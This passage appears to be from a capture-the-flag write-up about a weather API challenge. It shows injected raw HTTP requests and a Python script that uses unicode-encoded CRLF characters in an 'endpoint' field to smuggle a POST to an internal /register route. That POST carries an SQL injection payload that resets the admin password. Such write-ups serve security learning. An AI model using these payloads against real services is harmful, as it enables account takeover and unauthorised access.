 We can guess that this function will do:

```text-plain
GET /{endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey} HTTP/1.1
Host: 127.0.0.1
```

The `endpoint` is our injection point and we will need to inject these:

```text-plain
127.0.0.1/
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: str(content_length)

username=username&password=sqli_payload

GET 
```

The preconfigured request + our payload:

```text-plain
GET /127.0.0.1/
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: str(content_length)

username=username&password=sqli_payload

GET /data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey} HTTP/1.1
Host: 127.0.0.1
```

You might find the first line lacks of "HTTP/1.1", but both will work after testing. I used Python to send this request:

```text-plain
import requests

# Target URL
url = "http://46.101.48.208:30911"

# For SQLi
username = "admin"
password = "doesntmatter') ON CONFLICT(username) DO UPDATE SET password ='admin';--"
# We can also replace " " with "+" (urlencode)
parsed_password = password.replace(" ", "\u0120").replace("'", "%27")
content_length = len(username) + len(parsed_password) + 19

parsed_space = '\u0120'
parsed_newline = '\u010D\u010A'

endpoint = f'127.0.0.1/{parsed_newline}Host:{parsed_space}127.0.0.1{parsed_newline}{parsed_newline}POST{parsed_space}/register{parsed_space}\
HTTP/1.1{parsed_newline}Host:{parsed_space}127.0.0.1{parsed_newline}Content-Type:{parsed_space}application/x-www-form-urlencoded{parsed_newline}Content-Length:{parsed_space}'\
+ str(content_length) + f'{parsed_newline}{parsed_newline}username=' + username + '&password=' + parsed_password + f'{parsed_newline}{parsed_newline}GET{parsed_space}'

r = requests.post(url + '/api/weather', json={'endpoint':endpoint, 'city':'test','country':'test1'})
```